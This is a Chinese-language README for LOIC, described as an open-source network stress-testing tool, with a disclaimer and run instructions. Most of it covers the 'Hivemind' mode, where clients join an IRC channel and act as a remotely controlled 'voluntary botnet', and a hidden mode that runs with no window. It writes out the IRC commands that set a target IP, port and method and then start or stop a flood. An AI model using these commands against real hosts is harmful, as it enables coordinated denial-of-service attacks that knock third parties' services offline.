 ## 关于

低轨道离子炮（**LOIC**）是一个使用C#编写的开源网络压测工具

## 免责声明

LOIC仅用于教育目的，旨在帮助服务器所有者培养“防御黑客”的态度。此工具不保证任何维护。

**您不得将本软件用于非法或不道德的目的。这包括引起刑事或民事责任的活动**

**在任何情况下，许可方均不对被许可方的任何活动或不当行为负责**

## 如何在Windows上运行

- 下载LOIC客户端
- 需要 [`Microsoft .NET Framework 3.5 Service Pack 1`](https://www.microsoft.com/zh-CN/download/details.aspx?id=22) 运行库

## 如何在Linux/MacOS上运行

- 使用Mono或Wine运行调试二进制文件

- 阅读[Wiki](https://github.com/AdminHcat/LOIC-X/wiki/_pages)了解最新说明

## Hivemind/隐藏模式

Hivemind模式将您的LOIC客户端连接到IRC服务器，以便您所运行的LOIC客户端被远程控制。 可以将其视为一个自愿的僵尸网络。请注意，您的LOIC客户端被远程的时候可能会失灵。

注意：它不允许远程管理您的机器；该模式只是提供对LOIC客户端本身的控制。

如果要在Hivemind模式下启动，请运行以下操作：

```
LOIC.exe /hivemind IRC服务器地址
```

这样会连接到 `irc://IRC服务器地址:6667/loic`

您还可以指定一个端口和通道：

```
LOIC.exe /hivemind IRC服务器地址 1234 #secret
```

这样会连接到 `irc://irc.server.adress:1234/secret`

要运行Hivemind隐藏模式，请运行以下操作：

```
LOIC.exe /hidden /hivemind IRC服务器地址
```

这样会连接到 `irc://IRC服务器地址:6667/loic` 并且没有任何窗口。

## IRC如何控制LOIC

设置好IRC服务器频道标题而且**频道标题结尾不能有`start`字样**并发送参数消息（例如：

```
!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true
```

要发起攻击，请发送：

```
!lazor start
```

或者直接在参数消息末尾加上`start`：

```
!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true start
```

将所有已连接的LOIC客户端的选项重置为默认值：

```
!lazor default
```

停止攻击：

```
!lazor stop
```

查看源代码以了解更多详细信息